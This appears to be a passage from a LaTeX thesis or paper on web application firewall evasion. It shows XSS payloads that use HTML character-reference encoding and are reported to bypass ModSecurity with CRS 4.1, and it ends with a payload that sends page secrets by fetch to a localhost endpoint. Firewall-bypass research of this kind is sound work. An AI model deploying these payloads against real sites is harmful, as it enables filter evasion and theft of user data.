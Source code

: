 \subsubsection{Double HTML Character Reference}
\label{sec:doublehtmlcharref}
As stated under Section~\ref{sec:htmlcharrefsingleeva}, three blacklisting rules caused the ModSecurity firewall using \acrshort{crs} 4.1 to block the payload:

\begin{lstlisting}[style=basicStyle, language=Python]
<a href=javascript:alert('a')>ClickMeFor$</a>
\end{lstlisting}

After obscuring the payload with a single iteration of \acrshort{html} character reference substitution, the modified payload:

\begin{lstlisting}[style=basicStyle, language=Python, escapeinside=\^\^]
<a href=jav^\&\#x61^;script:alert('a')>ClickMeFor$</a>
\end{lstlisting}

successfully bypassed two of the three rules that caused the firewall to block the request.

On escaping the left parenthesis: \verb|(| in the javascript function \verb|alert()|, which was part of the matched data that caused rule with id \verb|941390| to match (see Listing~\ref{lst:storedxssinjblocked}), the payload:

\begin{lstlisting}[style=basicStyle, language=Python, caption=HTML Character Reference bypass, label={lst:htmlcharacterreferencebypass}, escapeinside=\^\^]
<a href=jav^\&\#x61;script:alert\&\#x28;^'a')>ClickMeFor$</a>
\end{lstlisting}

successfully bypassed the ModSecurity firewall using \acrshort{crs} 4.1.


\subsubsection{HTML Character References + JavaScript normal character escape}

\label{sec:htmlencjsesc}
The following payload could be used by an attacker intending to exploit a XSS vulnerability to exfiltrate secrets:

\begin{lstlisting}[style=basicStyle, language=Python, escapeinside=\^\^]
<a href=javascript:var secret = document.getElementsByName('name')[0].innerHTML;var data = {body:secret,method:'POST'};fetch('http://localhost:3001/api/ping?secret='+secret,data)>ClickMeFor$</a>
\end{lstlisting}

